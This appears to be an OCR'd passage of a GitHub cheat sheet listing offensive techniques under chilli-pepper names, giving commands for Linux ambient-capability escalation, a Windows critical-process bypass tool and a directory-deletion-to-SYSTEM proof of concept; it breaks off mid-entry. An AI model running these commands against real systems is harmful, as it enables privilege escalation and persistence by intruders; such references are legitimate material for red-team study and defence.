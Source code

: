 <a name="lemon-habanero"></a>
# Lemon Habanero

Domain: No

Local Admin: Yes

OS: Linux

Type: Capabilities

Methods:

-   gcc -Wl,\--no-as-needed -lcap-ng -o ambient ambient.c

-   sudo setcap cap_setpcap,cap_net_raw,cap_net_admin,cap_sys_nice+eip
    > ambient

-   ./ambient /bin/bash

<a name="red-habanero"></a>
# Red Habanero

Domain: No

Local Admin: Yes

OS: Windows

Type: NtSetInformationProcess + DLL side-loading

Methods:

-   BypassRtlSetProcessIsCritical.exe pid

<a name="ghost-pepper"></a>
# Ghost Pepper

Domain: No

Local Admin: Yes

OS: Windows

Type: Directory-Deletion + Windows Media Player d/s

Methods:

-   https://github.com/sailay1996/delete2SYSTEM

-   .\\poc.ps1

<a name="chocolate-scorpion-chilli"></a>
# Chocolate Scorpion Chilli

Domain: No
